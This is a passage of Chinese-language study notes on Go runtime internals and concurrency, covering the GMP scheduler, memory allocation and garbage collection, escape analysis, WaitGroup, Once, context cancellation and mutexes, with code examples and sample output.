            // 注意：正式环境不要频繁调用，有性能开销
            time.Sleep(time.Second)
            fmt.Printf("M数量: %d\n", mCount)
        }
    }()
}
```

数量关系总结

| 组件  | 数量关系     | 说明                   |
| :---- | :----------- | :--------------------- |
| **P** | = GOMAXPROCS | 默认=CPU核心数，可配置 |
| **M** | ≥ P数量      | 动态创建，最多10000个  |
| **G** | 无限制       | 只受内存限制           |


#### 抢占式调度策略

##### 3.1 协作式抢占（Go 1.13-）

```
// 基于函数调用的协作点
func cooperativePreemption() {
    for i := 0; i < 1000000; i++ {
        // 在函数调用时检查抢占标记
        doWork(i)
        
        // 编译器插入的抢占检查点
        if preempt := getG().preempt; preempt {
            goschedImpl() // 主动让出CPU
        }
    }
}
```

##### 3.2 基于信号的抢占（Go 1.14+）

```go
// 真正的抢占式调度
func signalBasedPreemption() {
    // 初始化信号处理
    func init() {
        // 注册SIGURG信号处理
        signalNotify(sigPreempt, syscall.SIGURG)
    }
    
    // M执行G时，监控超时
    func schedule() {
        for {
            // 检查执行时间是否超限（10ms）
            if gp.preemptStop && preemptMSupported {
                // 发送异步信号强制抢占
                preemptM(mp)
            }
        }
    }
}
```


#### 调度器核心源码分析

##### 调度循环（runtime/proc.go）

```go
// 核心调度函数
func schedule() {
    // 获取当前M和G
    mp := getg().m
    
    // 调度循环
top:
    // 1. 从本地运行队列获取G
    if gp, inheritTime := runqget(mp.p); gp != nil {
        execute(gp, inheritTime)
    }
    
    // 2. 从全局队列获取G
    if sched.runqsize > 0 {
        lock(&sched.lock)
        gp := globrunqget(mp.p, 1)
        unlock(&sched.lock)
        if gp != nil {
            execute(gp, false)
        }
    }
    
    // 3. 网络轮询器检查
    if netpollinited() && atomic.Load(&netpollWaiters) > 0 {
        if list := netpoll(0); !list.empty() {
            gp := list.pop()
            injectglist(&list)
            casgstatus(gp, _Gwaiting, _Grunnable)
            execute(gp, false)
        }
    }
    
    // 4. 从其他P偷取工作
    gp, inheritTime := findrunnable()
    
    execute(gp, inheritTime)
    
    goto top
}
```

##### 工作窃取（Work Stealing）

```go
func findrunnable() (gp *g, inheritTime bool) {
    // 尝试4次窃取
    for i := 0; i < 4; i++ {
        for enum := stealOrder.start(fastrand()); !enum.done(); enum.next() {
            // 随机选择其他P进行窃取
            if stealgp := runqsteal(pp, p2, stealRunNextG); stealgp != nil {
                return stealgp, false
            }
        }
    }
    return nil, false
}
```


#### 完整调度流程示例

```go
package main

import (
	"fmt"
	"runtime"
	"sync"
	"time"
)

// 演示GMP调度过程
func demonstrateGMP() {
	fmt.Println("=== GMP调度演示 ===")

	var wg sync.WaitGroup

	// 创建大量goroutine观察调度
	for i := 0; i < 100; i++ {
		wg.Add(1)
		go func(id int) {
			defer wg.Done()

			// 模拟计算密集型任务
			start := time.Now()
			for j := 0; j < 10000000; j++ {
				// 模拟工作负载
				_ = j * j

				// 每100万次检查一次，模拟抢占点
				if j%1000000 == 0 {
					// 主动让出CPU（协作式）
					runtime.Gosched()
				}
			}

			fmt.Printf("Goroutine %d 完成, 耗时: %v\n", id, time.Since(start))
		}(i)
	}

	wg.Wait()
}

// 监控调度器状态
func monitorScheduler() {
	fmt.Println("\n=== 调度器状态监控 ===")

	ticker := time.NewTicker(2 * time.Second)
	defer ticker.Stop()

	for range ticker.C {
		var stats runtime.MemStats
		runtime.ReadMemStats(&stats)

		// 获取goroutine数量
		numGoroutines := runtime.NumGoroutine()

		fmt.Printf("Goroutines: %d, ", numGoroutines)
		fmt.Printf("GOMAXPROCS: %d\n", runtime.GOMAXPROCS(0))
	}
}

func main() {

	demonstrateGMP()
	monitorScheduler()
}

```


### **内存管理**

> 内存分配器/垃圾回收器，GC/STW/三色标记法，栈空间/逃逸分析优化

Go的内存管理通过多层次的设计实现了高性能：

1. **分配器**：mcache → mcentral → mheap 三级缓存
2. **回收器**：并发三色标记清扫，最小化STW时间
3. **栈管理**：连续栈+动态增长，高效栈空间利用
4. **逃逸分析**：智能决定对象分配位置，减少GC压力


**内存分配位置**

```go
// 栈内存 vs 堆内存
type MemoryLayout struct {
    // 栈内存（Stack）
    // - 每个 Goroutine 独有
    // - 自动管理（函数调用压栈/出栈）
    // - 分配快，无GC压力
    // - 大小有限（通常几MB）
    
    // 堆内存（Heap）  
    // - 所有 Goroutine 共享
    // - 需要垃圾回收（GC）
    // - 分配较慢，有GC开销
    // - 空间大（受系统内存限制）
}
```


#### 内存分配器（Memory Allocator）

##### 多级缓存设计

```go
// 内存管理层次结构
type MCache struct {    // Per-P 缓存（无锁），线程缓存
    tiny       uintptr   // 小对象分配器
    tinyoffset uintptr
    alloc [numSpanClasses]*mspan
}

type MCentral struct {  // 全局中心缓存（需加锁）
    spanclass spanClass
    nonempty  mSpanList // 有空闲对象的span列表
    empty     mSpanList // 无空闲对象的span列表
}

type MHeap struct {     // 堆管理器（需加锁）
    allspans []*mspan   // 所有span的引用
    arenas   [1 << arenaL1Bits]*[1 << arenaL2Bits]*heapArena
    central [numSpanClasses]struct {
        mcentral mcentral
        pad      [cpu.CacheLinePadSize - unsafe.Sizeof(mcentral{})%cpu.CacheLinePadSize]byte
    }
}
```


 **对象大小分类**

```go
// 对象按大小采用不同分配策略
func sizeToClass(size uintptr) spanClass {
    // 微小对象（0-16B）：使用mcache.tiny分配器
    if size <= maxTinySize {
        return tinySpanClass
    }
    // 小对象（16B-32KB）：mcache -> mcentral -> mheap
    if size <= maxSmallSize {
        // 大小类别计算
        return spanClass(size-class(size))
    }
    // 大对象（>32KB）：直接从mheap分配
    return 0
}
```


#### 垃圾回收器（Garbage Collector）

##### 三色标记法（Tri-color Marking）

```go
// 三色标记状态
const (
    gcWhite = iota // 白色：待扫描（可能垃圾）
    gcGray         // 灰色：已标记，子对象待扫描  
    gcBlack        // 黑色：已标记，子对象已扫描
)

// 标记流程伪代码
func gcMark() {
    // 1. 从根对象开始（栈、全局变量等）
    for _, root := range gcRoots {
        shade(root) // 涂灰
    }
    
    // 2. 灰色对象处理
    for grayObject != nil {
        // 扫描对象的引用
        for _, ref := range grayObject.references {
            if getColor(ref) == gcWhite {
                shade(ref) // 子对象涂灰
            }
        }
        setColor(grayObject, gcBlack) // 完成扫描，涂黑
    }
    
    // 3. 白色对象即为垃圾，可回收
    sweepWhiteObjects()
}
```


##### GC 阶段与 STW（Stop-The-World）

```go
// GC 工作阶段
type gcPhase uint32

const (
    gcPhaseOff     gcPhase = iota // GC 未运行
    gcPhaseMark                   // 标记阶段（并发）
    gcPhaseMarkTermination       // 标记终止（STW）
    gcPhaseSweep                 // 清扫阶段（并发）
)

// STW 时机和时长控制
func gcStart() {
    // 阶段1：标记准备（极短STW）
    stopTheWorld("GC cycle start") 
    setGCPhase(gcPhaseMark)
    startTheWorld()
    
    // 阶段2：并发标记
    backgroundMark()
    
    // 阶段3：标记终止（STW，处理残余灰色对象）
    stopTheWorld("GC mark termination") //STW
    markTermination()
    setGCPhase(gcPhaseSweep)
    startTheWorld()
    
    // 阶段4：并发清扫
    backgroundSweep()
}
```

> **什么是 STW？**

```go
// 简单理解：程序完全暂停，就像时间停止一样
func example() {
    fmt.Println("程序正常执行...")
    
    // STW 发生 - 整个世界暂停！
    // GC 开始 STW 阶段
    // 所有 Goroutine 停止执行
    
    // STW 结束 - 世界恢复运行
    fmt.Println("程序继续执行...")
}
```

**STW 期间发生的事**：

- ⏸️ 所有 Goroutine 暂停执行
- 🚫 所有用户代码停止运行
- 🧹 GC 安全地进行内存管理
- 🔄 完成后恢复程序执行


#### 栈空间管理

##### 栈增长机制（扩容）

```go
// 栈帧结构
type stack struct {
    lo uintptr    // 栈底
    hi uintptr    // 栈顶
}

// 栈溢出检查
func morestack() {
    // 检查是否需要扩容
    oldsize := gp.stack.hi - gp.stack.lo
    if oldsize < maxstacksize {
        // 栈扩容（通常2倍）
        newsize := oldsize * 2
        if newsize > maxstacksize {
            newsize = maxstacksize
        }
        newstack := stackalloc(newsize)
        copystack(newstack, gp.stack)
        gp.stack = newstack
    } else {
        throw("stack overflow")
    }
}
```


##### 连续栈 vs 分段栈

###### **分段栈（Segmented Stack）- Go 1.2 及之前**

```go
// 分段栈：栈空间不足时创建新栈段
type stackSegment struct {
    prev *stackSegment  // 前一个栈段
    next *stackSegment  // 下一个栈段
    data []byte         // 栈数据
}

type g struct {
    stack       *stackSegment  // 当前栈段
    stackguard0 uintptr         // 栈保护边界
}
```

**工作方式**：

```go
func main() {
    // 初始：小栈段（例如 8KB）
    // [栈段1]
    
    deepRecursion(1000)  // 栈空间不足
    
    // 创建新栈段并链接
    // [栈段1] → [栈段2]
    
    // 函数返回时，可能释放栈段2
    // [栈段1]
}
```


**分段栈的问题：热分裂（Hot Split）**

```go
// 问题示例：频繁的栈扩展/收缩
func hotSplitProblem() {
    for i := 0; i < 10000; i++ {
        // 循环内调用可能触发栈扩展
        smallFunction()  // 栈边界检查
        
        // 返回时可能触发栈收缩
        // 导致频繁分配/释放栈段
    }
}

func smallFunction() {
    var buffer [128]byte // 小量栈使用
    _ = buffer
}
```

**热分裂问题**：

- 🔄 **频繁分配**：栈扩展时分配新栈段
- 🔄 **频繁释放**：函数返回时释放栈段
- 📉 **性能下降**：内存分配器压力大
- 💥 **缓存不友好**：栈段内存不连续


###### **连续栈（Contiguous Stack）- Go 1.3+**

```go
// 连续栈：单个连续内存区域
type stack struct {
    lo uintptr    // 栈底地址
    hi uintptr    // 栈顶地址
}

type g struct {
    stack       stack        // 连续栈空间
    stackguard0 uintptr      // 栈保护边界
    stackguard1 uintptr      // 系统栈保护
}

// 栈拷贝结构
type adjustinfo struct {
    old   stack              // 旧栈
    new   stack              // 新栈
    delta uintptr            // 地址偏移量
}
```

工作流程：（扩容时是copy）

```go
// 栈增长流程
func stackGrowth() {
    // 1. 检查栈溢出
    if sp < stackguard0 {
        // 2. 分配新的更大栈（通常是2倍）
        newStack := allocateStack(oldStack.size * 2)
        
        // 3. 拷贝旧栈数据到新栈
        copyStack(oldStack, newStack)
        
        // 4. 调整所有栈帧指针
        adjustStackFrames(oldStack, newStack)
        
        // 5. 切换栈指针
        switchToNewStack(newStack)
    }
}
```


#### 逃逸分析（Escape Analysis）

**逃逸**是 Go 语言编译器的核心优化技术，指的是**变量从栈内存"逃"到堆内存分配的过程**。

**核心思想**：

- **栈分配**：函数局部变量，函数返回后自动回收
- **堆分配**：生命周期超出函数范围，需要垃圾回收

```go
// 编译器在编译时进行逃逸分析
func compileTimeAnalysis() {
    // 编译器会分析：
    // 1. 变量的生命周期
    // 2. 指针的传递路径  
    // 3. 函数调用关系
    // 4. 并发访问情况
}
```


##### 逃逸判断规则

```go
// 案例1：指针逃逸到堆上
func escapeToHeap() *int {
    x := 42
    return &x  // x逃逸到堆：返回局部变量指针   ./test.go:5:2: moved to heap: x
}

// 案例2：接口动态调用导致逃逸
func interfaceEscape() {
    var x interface{} = 42 // 接口动态分配导致逃逸
    fmt.Println(x)
    //./test.go:13:22: 42 escapes to heap
    // ./test.go:14:13: ... argument does not escape
}

// 案例3：切片容量过大导致逃逸
func sliceEscape() {
    data := make([]byte, 0, 10000) // 大切片可能逃逸  make([]byte, 0, 10000) escapes to heap
    // 小切片（<=64KB）通常在栈上分配
}

// 案例4：闭包捕获变量
func closureEscape() func() int {
    x := 100
    return func() int {  // x被闭包捕获，逃逸到堆  func literal escapes to heap
        return x
    }
}
```

==》

```go
//编译时显示逃逸分析信息
//-m：显示优化信息（包括逃逸分析）
//-l：禁用内联，避免函数调用被优化掉
go build -gcflags="-m -l" main.go  


# 输出示例：
# ./main.go:10:6: can inline escapeToHeap
# ./main.go:11:2: moved to heap: x
```


###### **指针逃逸（最常见）**

```go
package main

// 情况1：返回局部变量指针（必然逃逸）
func createInt() *int {
    x := 100           // x 在堆上分配（逃逸）
    return &x          // 返回地址，x 必须存活
}

func main() {
    ptr := createInt()  // ptr 指向堆内存
    println(*ptr)       // 100
}
```

**编译器分析**：

```
变量 x:
- 创建点: createInt 函数内
- 使用点: main 函数中  
- 生命周期: 跨函数 → 必须逃逸到堆
```


###### **接口动态分配逃逸**

```go
package main

import "fmt"

func interfaceEscape() {
    // 情况2：接口动态分发导致逃逸
    var x int = 42
    fmt.Println(x)  // x 逃逸到堆
    
    // 为什么？
    // fmt.Println 接受 interface{} 参数
    // 需要动态分配内存存储类型信息
}

func noInterfaceEscape() {
    // 直接使用，不逃逸
    x := 42
    println(x)  // 编译器内建函数，不逃逸
}
```


###### **闭包捕获变量逃逸**

```
package main

func closureEscape() func() int {
    x := 100      // x 被闭包捕获，逃逸到堆
    
    // 闭包函数
    return func() int {
        return x  // 内部引用外部变量
    }
}

func noClosureEscape() {
    x := 100
    func() {
        println(x)  // 立即执行，不逃逸
    }()
}
```


###### **大对象逃逸**

```go
package main

func largeAllocation() {
    // 小对象：可能在栈上
    small := make([]byte, 1024)  // 1KB，可能栈分配
    
    // 大对象：通常逃逸到堆  
    large := make([]byte, 100 * 1024)  // 100KB，逃逸到堆
}
```


### **并发控制**

> sync.WaitGroup/sync.Once，主协程等待子协程方法

1. **WaitGroup**：用于等待一组协程完成，`Add()`必须在 goroutine 外调用
2. **Once**：确保操作只执行一次，适合初始化场景
3. **模式选择**：
   1. 简单等待：WaitGroup
   2. 资源初始化：Once
   3. 超时控制：select + time.After
   4. 优雅关闭：select + channel关闭


#### sync.WaitGroup - 等待协程组完成

##### 基本用法

```go
package main

import (
    "fmt"
    "sync"
    "time"
)

func basicWaitGroup() {
    fmt.Println("=== WaitGroup 基本用法 ===")
    
    var wg sync.WaitGroup
    
    for i := 1; i <= 5; i++ {
        wg.Add(1) // 增加计数器，必须在goroutine外调用
        
        go func(id int) {
            defer wg.Done() // 完成后计数器减1
            
            fmt.Printf("Worker %d 开始工作\n", id)
            time.Sleep(time.Duration(id) * time.Second)
            fmt.Printf("Worker %d 完成工作\n", id)
        }(i)
    }
    
    fmt.Println("主协程等待所有worker完成...")
    wg.Wait() // 阻塞直到计数器为0
    fmt.Println("所有worker已完成！")
}
```

##### 错误用法

```go
func commonMistakes() {
    fmt.Println("\n=== 常见错误和正确用法 ===")
    
    // 错误示例1：Add在goroutine内调用
    var wg1 sync.WaitGroup
    for i := 1; i <= 3; i++ {
        go func(id int) {
            wg1.Add(1) // 错误：可能在Wait之后才调用Add
            defer wg1.Done()
            fmt.Printf("错误示例 worker %d\n", id)
        }(i)
    }
    // wg1.Wait() // 可能提前返回
    }
```


##### 带结果的WaitGroup

```go
func waitGroupWithResults() {
    fmt.Println("\n=== 带返回结果的WaitGroup ===")
    
    var wg sync.WaitGroup
    results := make(chan int, 3) // 缓冲通道收集结果
    
    tasks := []int{1, 2, 3, 4, 5}
    
    for i, task := range tasks {
        wg.Add(1)
        go func(id int, taskData int) {
            defer wg.Done()
            
            // 模拟工作并返回结果
            result := taskData * 2
            time.Sleep(time.Duration(taskData) * 100 * time.Millisecond)
            results <- result
            fmt.Printf("任务 %d 完成，结果: %d\n", id, result)
        }(i, task)
    }
    
    // 等待所有任务完成，然后关闭通道
    go func() {
        wg.Wait()
        close(results)
        fmt.Println("所有任务完成，结果通道已关闭")
    }()
    
    // 收集结果 ==》range ch 什么时候会结束 ==》循环读取，直到通道关闭且为空
    var allResults []int
    for result := range results {
        allResults = append(allResults, result)
    }
    
    fmt.Printf("最终结果: %v\n", allResults)
}
```


#### sync.Once - 确保只执行一次

##### 基本用法

保证函数只执行一次

```go
func syncOnceExample() {
    fmt.Println("\n=== sync.Once 基本用法 ===")
    
    var once sync.Once
    var config map[string]string
    
    initialize := func() {
        fmt.Println("初始化配置...")
        config = make(map[string]string)
        config["host"] = "localhost"
        config["port"] = "8080"
        time.Sleep(2 * time.Second) // 模拟耗时初始化
        fmt.Println("配置初始化完成")
    }
    
    // 多个goroutine尝试初始化，但只会执行一次
    for i := 0; i < 5; i++ {
        go func(id int) {
            fmt.Printf("Goroutine %d 尝试初始化\n", id)
            once.Do(initialize)
            fmt.Printf("Goroutine %d 获取配置: %v\n", id, config)
        }(i)
    }
    
    time.Sleep(3 * time.Second)
}
```


##### 带错误处理的Once

```go
type SafeInitializer struct {
    once   sync.Once
    config map[string]string
    err    error
}

func (s *SafeInitializer) Initialize() error {
    s.once.Do(func() {
        fmt.Println("执行安全初始化...")
        // 模拟可能失败的操作
        if time.Now().Unix()%2 == 0 {
            s.config = map[string]string{"status": "success"}
        } else {
            s.err = fmt.Errorf("初始化失败")
        }
    })
    return s.err
}

func (s *SafeInitializer) GetConfig() (map[string]string, error) {
    if err := s.Initialize(); err != nil {
        return nil, err
    }
    return s.config, nil
}

func safeOnceExample() {
    fmt.Println("\n=== 带错误处理的 Once ===")
    
    initializer := &SafeInitializer{}
    
    var wg sync.WaitGroup
    for i := 0; i < 3; i++ {
        wg.Add(1)
        go func(id int) {
            defer wg.Done()
            
            config, err := initializer.GetConfig()
            if err != nil {
                fmt.Printf("Goroutine %d: %v\n", id, err)
            } else {
                fmt.Printf("Goroutine %d 获取配置: %v\n", id, config)
            }
        }(i)
    }
    wg.Wait()
}
```


#### 主协程等待子协程的完整模式

##### 3.1 基础等待模式

```
func mainWaitsForAll() {
    fmt.Println("\n=== 主协程等待所有子协程 ===")
    
    var wg sync.WaitGroup
    done := make(chan bool)
    
    // 启动监控协程
    wg.Add(1)
    go func() {
        defer wg.Done()
        monitorProgress(done)
    }()
    
    // 启动工作协程
    for i := 0; i < 3; i++ {
        wg.Add(1)
        go worker(i, &wg)
    }
    
    // 等待所有工作完成
    wg.Wait()
    close(done) // 通知监控协程退出
    fmt.Println("主协程: 所有任务完成")
}

func worker(id int, wg *sync.WaitGroup) {
    defer wg.Done()
    fmt.Printf("Worker %d 开始工作\n", id)
    time.Sleep(time.Duration(id+1) * time.Second)
    fmt.Printf("Worker %d 完成工作\n", id)
}

func monitorProgress(done <-chan bool) {
    ticker := time.NewTicker(500 * time.Millisecond)
    defer ticker.Stop()
    
    for {
        select {
        case <-done:
            fmt.Println("监控协程: 收到完成信号，退出")
            return
        case <-ticker.C:
            fmt.Println("监控协程: 系统运行中...")
        }
    }
}
```

##### 3.2 超时控制模式

```go
func waitWithTimeout() {
    fmt.Println("\n=== 带超时的等待 ===")
    
    var wg sync.WaitGroup
    tasks := []string{"任务A", "任务B", "任务C", "任务D"}
    
    for i, task := range tasks {
        wg.Add(1)
        go func(id int, taskName string) {
            defer wg.Done()
            
            fmt.Printf("%s 开始执行\n", taskName)
            time.Sleep(time.Duration(id+1) * time.Second)
            fmt.Printf("%s 完成\n", taskName)
        }(i, task)
    }
    
    // 等待完成，但最多等待3秒
    if waitWithTimeout(&wg, 3*time.Second) {
        fmt.Println("所有任务在超时前完成")
    } else {
        fmt.Println("等待超时，部分任务可能仍在运行")
    }
}

func waitWithTimeout(wg *sync.WaitGroup, timeout time.Duration) bool {
    c := make(chan struct{})
    go func() {
        defer close(c)
        wg.Wait()
    }()
    
    select {
    case <-c:
        return true // 正常完成
    case <-time.After(timeout):
        return false // 超时
    }
}
```

基本思路是使用 select + ch + time.After(timeout) 实现超时返回。


##### 3.3 优雅关闭模式

> select + ch 实现发送关闭信号时做优雅退出

```go
func gracefulShutdown() {
    fmt.Println("\n=== 优雅关闭示例 ===")
    
    var wg sync.WaitGroup
    shutdown := make(chan struct{})
    
    // 启动多个工作协程
    for i := 0; i < 3; i++ {
        wg.Add(1)
        go func(id int) {
            defer wg.Done()
            workerWithShutdown(id, shutdown)
        }(i)
    }
    
    // 模拟运行一段时间
    time.Sleep(2 * time.Second)
    
    // 发送关闭信号
    fmt.Println("发送关闭信号...")
    close(shutdown)
    
    // 等待所有协程优雅退出
    wg.Wait()
    fmt.Println("所有协程已优雅退出")
}

func workerWithShutdown(id int, shutdown <-chan struct{}) {
    fmt.Printf("Worker %d 启动\n", id)
    
    for {
        select {
        case <-shutdown:
            fmt.Printf("Worker %d 收到关闭信号，清理中...\n", id)
            time.Sleep(500 * time.Millisecond) // 模拟清理工作
            fmt.Printf("Worker %d 退出\n", id)
            return
        default:
            // 正常工作
            fmt.Printf("Worker %d 工作中...\n", id)
            time.Sleep(1 * time.Second)
        }
    }
}
```

### **上下文**

> context.Context，层级关系，取消信号context.WithCancel

1. **Context 层级**：树形结构，取消信号会传播到所有子Context
2. **WithCancel**：创建可取消的Context，用于主动取消操作
3. **模式应用**：超时控制：WithTimeout值传递：WithValue取消传播：多级Context资源清理：defer + cancel


#### Context 基础概念

```go
package main

import (
    "context"
    "fmt"
    "time"
)

// Context 核心接口
type Context interface {
    Deadline() (deadline time.Time, ok bool)
    Done() <-chan struct{}
    Err() error
    Value(key interface{}) interface{}
}

func basicContext() {
    fmt.Println("=== Context 基本概念 ===")
    
    // 创建根Context
    ctx := context.Background()
    
    // 检查Context的方法
    deadline, ok := ctx.Deadline()
    fmt.Printf("Deadline: %v, ok: %t\n", deadline, ok)
    
    done := ctx.Done()
    fmt.Printf("Done channel: %v\n", done)
    
    err := ctx.Err()
    fmt.Printf("Error: %v\n", err)
    
    value := ctx.Value("key")
    fmt.Printf("Value: %v\n", value)
}

==》
=== Context 基本概念 ===
Deadline: 0001-01-01 00:00:00 +0000 UTC, ok: false
Done channel: <nil>
Error: <nil>
Value: <nil>
```


##### value基本操作

```go
func basicValueOperations() {
    fmt.Println("=== Context Value 基础操作 ===")
    
    // 创建带值的Context
    ctx := context.Background()
    
    // 设置值（返回新的Context）
    ctx = context.WithValue(ctx, "user_id", 123)
    ctx = context.WithValue(ctx, "request_id", "abc-123")
    ctx = context.WithValue(ctx, "auth_token", "token-xyz")
    
    // 获取值
    userID := ctx.Value("user_id")
    requestID := ctx.Value("request_id")
    authToken := ctx.Value("auth_token")
    nonExistent := ctx.Value("non_existent_key")
    
    fmt.Printf("user_id: %v (%T)\n", userID, userID)
    fmt.Printf("request_id: %v (%T)\n", requestID, requestID)
    fmt.Printf("auth_token: %v (%T)\n", authToken, authToken)
    fmt.Printf("non_existent: %v\n", nonExistent)
}

```


#### Context 层级关系

##### 2.1 Context 树形结构

```go
func contextHierarchy() {
    fmt.Println("\n=== Context 层级关系 ===")
    
    // 根Context
    rootCtx := context.Background()
    fmt.Printf("根Context: %v\n", rootCtx)
    
    // 第一层子Context
    childCtx1, cancel1 := context.WithCancel(rootCtx)
    defer cancel1()
    fmt.Printf("子Context1: %v\n", childCtx1)
    
    // 第二层子Context
    childCtx2, cancel2 := context.WithCancel(childCtx1)
    defer cancel2()
    fmt.Printf("子Context2: %v\n", childCtx2)
}


==》


=== Context 层级关系 ===
根Context: context.Background
子Context1: context.Background.WithCancel
子Context2: context.Background.WithCancel.WithCancel
```


##### 2.2 完整的Context树示例

```go
func contextTreeExample() {
    fmt.Println("\n=== Context 树形结构示例 ===")
    
    // 创建Context树
    // root
    //   │
    //   ├── userCtx (WithValue)
    //   │   └── requestCtx (WithTimeout)
    //   └── authCtx (WithCancel)
    
    root := context.Background()
    
    // 用户相关Context
    userCtx := context.WithValue(root, "userID", "12345")
    
    // 请求相关Context（超时控制）
    requestCtx, requestCancel := context.WithTimeout(userCtx, 5*time.Second)
    defer requestCancel()
    
    // 认证相关Context
    authCtx, authCancel := context.WithCancel(root)
    defer authCancel()
    
    // 打印Context树
    printContextTree(root, "根", 0)
    printContextTree(userCtx, "用户", 1)
    printContextTree(requestCtx, "请求", 2)
    printContextTree(authCtx, "认证", 1)
}

func printContextTree(ctx context.Context, name string, depth int) {
    indent := ""
    for i := 0; i < depth; i++ {
        indent += "  "
    }
    fmt.Printf("%s%sContext: %v\n", indent, name, ctx)
    
    // 如果有值，打印值
    if userID := ctx.Value("userID"); userID != nil {
        fmt.Printf("%s  用户ID: %v\n", indent, userID)
    }
}

==》

=== Context 树形结构示例 ===
根Context: context.Background
  用户Context: context.Background.WithValue(type string, val 12345)
    用户ID: 12345
    请求Context: context.Background.WithValue(type string, val 12345).WithDeadline(2025-11-10 17:14:52.370285629 +0800 CST m=+5.000054494 [4.999865848s])
      用户ID: 12345
  认证Context: context.Background.WithCancel
```


#### context.WithCancel - 取消信号

##### 3.1 基本用法

```go
func withCancelBasic() {
    fmt.Println("\n=== context.WithCancel 基本用法 ===")
    
    // 创建可取消的Context
    ctx, cancel := context.WithCancel(context.Background())
    
    // 启动工作协程
    go worker(ctx, "Worker1")
    
    // 让worker运行一段时间
    time.Sleep(2 * time.Second)
    
    // 发送取消信号
    fmt.Println("发送取消信号...")
    cancel()
    
    // 给worker时间处理取消
    time.Sleep(500 * time.Millisecond)
}

func worker(ctx context.Context, name string) {
    for {
        select {
        case <-ctx.Done():
            fmt.Printf("%s: 收到取消信号，错误: %v\n", name, ctx.Err())
            return
        default:
            fmt.Printf("%s: 工作中...\n", name)
            time.Sleep(500 * time.Millisecond)
        }
    }
}

==》
=== context.WithCancel 基本用法 ===
Worker1: 工作中...
3
Worker1: 工作中...
发送取消信号...
Worker1: 收到取消信号，错误: context canceled
```

#####  多级取消传播

```go
func multiLevelCancellation() {
    fmt.Println("\n=== 多级取消传播 ===")
    
    // 创建Context树
    // root → parent → child1, child2
    
    rootCtx := context.Background()
    parentCtx, parentCancel := context.WithCancel(rootCtx)
    childCtx1, _ := context.WithCancel(parentCtx)
    childCtx2, _ := context.WithCancel(parentCtx)
    
    // 启动多个worker监听不同Context
    go worker(childCtx1, "ChildWorker1")
    go worker(childCtx2, "ChildWorker2")
    go worker(parentCtx, "ParentWorker")
    
    time.Sleep(1 * time.Second)
    
    // 取消父Context，所有子Context都会收到信号
    fmt.Println("取消父Context...")
    parentCancel()
    
    time.Sleep(1 * time.Second)
}

==》

=== 多级取消传播 ===
ParentWorker: 工作中...
ChildWorker1: 工作中...
ChildWorker2: 工作中...
ChildWorker2: 工作中...
ParentWorker: 工作中...
ChildWorker1: 工作中...
取消父Context...
ChildWorker1: 收到取消信号，错误: context canceled
ParentWorker: 收到取消信号，错误: context canceled
ChildWorker2: 收到取消信号，错误: context canceled
```


##### 资源清理模式

收到取消信号时，进行db等资讯清理。

```go
func resourceCleanupExample() {
    fmt.Println("\n=== 资源清理示例 ===")
    
    ctx, cancel := context.WithCancel(context.Background())
    defer cancel() // 确保资源清理
    
    // 模拟数据库连接
    dbConn := &DatabaseConnection{name: "MainDB"}
    defer dbConn.Close()
    
    // 将资源与Context关联
    ctx = context.WithValue(ctx, "db", dbConn)
    
    go func() {
        // 模拟工作
        for i := 0; i < 5; i++ {
            select {
            case <-ctx.Done():
                fmt.Println("工作协程: 收到取消信号，进行清理...")
                if db, ok := ctx.Value("db").(*DatabaseConnection); ok {
                    db.Cleanup()
                }
                return
            default:
                fmt.Printf("工作协程: 处理第 %d 个任务\n", i+1)
                time.Sleep(1 * time.Second)
            }
        }
    }()
    
    time.Sleep(3 * time.Second)
    fmt.Println("主程序: 发送取消信号")
    cancel()
    time.Sleep(1 * time.Second)
}

type DatabaseConnection struct {
    name string
}

func (db *DatabaseConnection) Close() {
    fmt.Printf("数据库连接 %s 关闭\n", db.name)
}

func (db *DatabaseConnection) Cleanup() {
    fmt.Printf("数据库连接 %s 清理中...\n", db.name)
}


==》

=== 资源清理示例 ===
工作协程: 处理第 1 个任务
工作协程: 处理第 2 个任务
工作协程: 处理第 3 个任务
工作协程: 处理第 4 个任务
主程序: 发送取消信号
数据库连接 MainDB 关闭
工作协程: 收到取消信号，进行清理...
```

### **同步机制**--锁的使用

> sync.Mutex/sync.RWMutex/sync.Cond/sync.atomic，各类的使用场景

==》锁的使用

使用场景对比：

| 机制        | 适用场景       | 优点           | 缺点     |
| :---------- | :------------- | :------------- | :------- |
| **Mutex**   | 通用的互斥访问 | 简单可靠       | 性能一般 |
| **RWMutex** | 读多写少       | 读并发性能好   | 实现复杂 |
| **Cond**    | 条件等待       | 高效的通知机制 | 使用复杂 |
| **atomic**  | 简单计数器     | 性能最好       | 功能有限 |

选择原则：

1. **简单优先**：能用 Mutex 不用 RWMutex
2. **性能导向**：高频操作用 atomic
3. **场景匹配**：生产者-消费者用 Cond
4. **可维护性**：避免过度优化


#### 1. sync.Mutex - 互斥锁

##### 1.1 基本用法

```go
package main

import (
    "fmt"
    "sync"
    "time"
)

func mutexBasic() {
    fmt.Println("=== sync.Mutex 基本用法 ===")
    
    var mu sync.Mutex
    var counter int
    
    // 多个goroutine并发安全地修改共享数据
    var wg sync.WaitGroup
    for i := 0; i < 100; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            
            mu.Lock()         // 加锁
            counter++         // 临界区操作
            mu.Unlock()       // 解锁
        }()
    }
    
    wg.Wait()
    fmt.Printf("最终计数: %d\n", counter)
}
```

##### 1.2 保护复杂数据结构

```go
type SafeMap struct {
    mu    sync.Mutex // // 零值可用
    data  map[string]interface{}
}

func NewSafeMap() *SafeMap {
    return &SafeMap{
        data: make(map[string]interface{}),
    }
}

func (sm *SafeMap) Set(key string, value interface{}) {
    sm.mu.Lock()
    defer sm.mu.Unlock()  // defer确保解锁，避免死锁
    sm.data[key] = value
}

func (sm *SafeMap) Get(key string) (interface{}, bool) {
    sm.mu.Lock()
    defer sm.mu.Unlock()
    value, exists := sm.data[key]
    return value, exists
}

func (sm *SafeMap) Delete(key string) {
    sm.mu.Lock()
    defer sm.mu.Unlock()
    delete(sm.data, key)
}

func mutexComplexData() {
    fmt.Println("\n=== Mutex 保护复杂数据结构 ===")
    
    sm := NewSafeMap()
    var wg sync.WaitGroup
    
    // 并发写入
    for i := 0; i < 10; i++ {
        wg.Add(1)
        go func(id int) {
            defer wg.Done()
            key := fmt.Sprintf("key%d", id)
            sm.Set(key, id*100)
        }(i)
    }
    
    wg.Wait()
    
    // 读取数据
    if value, exists := sm.Get("key5"); exists {
        fmt.Printf("key5的值: %v\n", value)
    }
}
```


#### 2. sync.RWMutex - 读写锁

##### 2.1 读写分离场景

```go
type ConfigManager struct {
    rw      sync.RWMutex
